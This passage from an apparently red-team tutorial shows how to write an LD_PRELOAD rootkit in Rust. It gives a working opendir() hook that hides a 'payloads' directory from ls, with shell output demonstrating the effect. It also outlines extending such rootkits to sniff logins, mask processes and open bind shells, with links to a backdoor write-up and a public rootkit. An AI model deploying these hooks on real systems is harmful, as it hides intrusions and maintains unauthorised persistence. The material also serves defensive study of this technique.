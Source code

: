the example code is almost 1:1 as the `puts()` example, except we must return a null pointer instead of a `c_int`. we will also need to utilize the `errno` crate to set the relevant variable `ENOENT` which indicates that there is no file or directory. you can add that to the crate using: `cargo add errno`
```
use errno::set_errno;
#[no_mangle]
pub extern "C" fn opendir(name: *const c_char) -> *mut FILE {
    let o_opendir: *mut c_void = unsafe { libc::dlsym(libc::RTLD_NEXT, b"opendir\0".as_ptr() as *const _) };
    let o_opendir: extern "C" fn(*const c_char) -> *mut FILE = unsafe { std::mem::transmute(o_opendir) };

    let cstr = unsafe { CStr::from_ptr(name) };
    if cstr.to_bytes() == "payloads".as_bytes() {
        set_errno(errno::Errno(libc::ENOENT));
        return null_mut()
    }

    return o_opendir(name);
}
```

once we have the library compiled, we can verify the directory `payloads` exists on the filesystem and is accessible when using `ls` linked against libc. 
```
ls -la payloads
total 12
drwxr-xr-x 3 kali kali 4096 Apr  8 12:25 .
drwxr-xr-x 8 kali kali 4096 Apr  8 12:26 ..
drwxr-xr-x 2 kali kali 4096 Apr  8 12:25 test
-rw-r--r-- 1 kali kali    0 Apr  8 12:25 test.c
```

when running `ls` linked against our library, `payloads` is no longer
```
LD_PRELOAD=/home/kali/libhooked_puts.so ls -la payloads
ls: cannot open directory 'payloads': No such file or directory
```

## moving further
malicious function signatures delivered through dynamic preloading allow attackers to enable capabilities such as authentication sniffing, network connection and process masking, and various other techniques. a common technique for establishing persistence utilizing preload rootkits is by hooking `accept()` to accept connections on an arbitrary port, essentially creating a bind shell. this process is well documented in the this [blog](https://www.secureideas.com/blog/ldpreload-making-a-backdoor-by-hijacking-accept).

preload rootkits are super extensible depending on the enagement requirements. one public example that illustrates the capabilities of a well-developed rookit is [medusa](https://github.com/ldpreload/Medusa). unfortuantely, using the dynamic loader through `LD_PRELOAD` or `/etc/ld.so.preload` as a persistence method is well documented: mitre technique: `T1574.006`
